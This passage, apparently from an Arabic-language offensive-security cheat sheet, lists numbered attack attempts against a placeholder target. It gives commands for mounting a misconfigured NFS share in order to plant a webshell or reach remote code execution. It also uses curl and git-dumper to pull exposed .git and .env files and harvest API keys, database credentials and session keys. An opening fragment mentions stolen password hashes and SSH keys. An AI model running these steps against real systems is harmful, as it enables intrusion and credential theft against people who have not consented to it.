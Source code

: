 ### 📌 النتيجة:
- الحصول على كلمات مرور مشفرة.
- مفاتيح SSH خاصة.

---

# 🧪 المحاولة #7: تصدير NFS بدون قيود (NFS Share Misconf)

### ⚙️ الفكرة:
الخوادم التي تشغّل NFS وتُعطي إذن `rw,no_root_squash`.

### 💥 الاستغلال:
```bash
showmount -e target.com
mount -t nfs target.com:/shared /mnt/nfs
ls /mnt/nfs
```

### 📌 النتيجة:
- الوصول إلى الملفات الداخلية.
- رفع Webshell أو تنفيذ RCE.

---

# 🧪 المحاولة #8: Config Files with Secrets in Git or Local Folders

### ⚙️ الفكرة:
بعض المطورين يتركون مجلد `.git` أو ملفات `.env` في الجذر.

### 💥 الاستغلال:
```bash
curl -v http://target.com/.git/config
curl -v http://target.com/.env
```

أو استخدام:
```bash
git-dumper http://target.com/.git ./dump
```

### 📌 النتيجة:
- استخراج API Keys.
- استخراج DATABASE CREDENTIALS.
- استخراج SESSION KEYS.

---

# 🧪 المحاولة #9: Exposed Debug Pages or APIs
